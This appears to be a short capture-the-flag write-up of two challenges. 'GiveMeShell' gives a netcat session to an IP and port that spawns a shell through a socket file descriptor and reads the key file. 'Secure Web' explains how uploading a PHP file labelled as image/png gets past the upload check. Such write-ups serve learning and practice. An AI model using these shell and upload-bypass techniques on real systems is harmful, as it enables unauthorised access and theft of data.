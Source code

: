 ## GiveMeShell

first of all, givemeshell is the "ELF 32-bit LSB executable". 
By trying a bit of reverse engineering, you get to know that the challenge executes the first 5 characters of the input in the remote shell.
since the program accesses the input with the fork, we can use the file descriptor 4 (which is socket) to spawn the shell and list the key.

```
C:\Users\Samsung>nc 119.70.231.180 8765
sh<&4
ls>&4
cat key>&4
key : WeLoveShell
```

## Secure Web

You can upload a image but the upload does not check file extension while it checks for the content type.
By uploading a file with php extension with the content-type: image/png, you will be able to list directory and get the flag.

the flag was in /home/dwh300/flags

```
 ad8888888888ba
dP'         `"8b,
8  ,aaa,       "Y888a     ,aaaa,     ,aaa,  ,aa,
8  8' `8           "8baaaad""""baaaad""""baad""8b
8  8   8              """"      """"      ""    8b
8  8, ,8         ,aaaaaaaaaaaaaaaaaaaaaaaaddddd88P
8  `"""'       ,d8""
Yb,         ,ad8"    Congratulations!!!!
 "Y8888888888P"         key is \"!!xx_^s0m3th1ng wr0ng^_yy!!\"
```